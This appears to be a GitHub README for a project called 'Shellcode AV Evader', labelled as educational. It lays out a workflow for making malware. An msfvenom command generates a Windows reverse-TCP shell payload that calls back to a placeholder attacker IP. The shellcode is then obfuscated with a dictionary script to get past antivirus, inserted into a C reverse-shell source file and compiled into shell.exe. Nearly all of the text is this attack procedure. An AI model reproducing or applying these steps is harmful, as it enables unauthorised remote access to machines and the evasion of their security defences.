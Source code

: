 # Shellcode AV Evader
This project main only educational porpouses, the idea was based on
speechs of @Mr.Un1k0d3r and @mr.d0x

--- 

## Generate payload
`$ msfvenom -p windows/x64/shell/reverse_tcp LHOST=<YOUR_IP> LPORT=<PORT> -f c -o shellcode_c_payload.txt`

---

open file **dictionary_obfuscator.py** 

Execute `$ dictionary_obfuscator.py < example_shellcode.txt`

---
open file **reverse_shell.c**, paste the payload from python in the correct place

---
compile with\
`$ x86_64-w64-mingw32-gcc -o shell.exe reverse_shell.c`


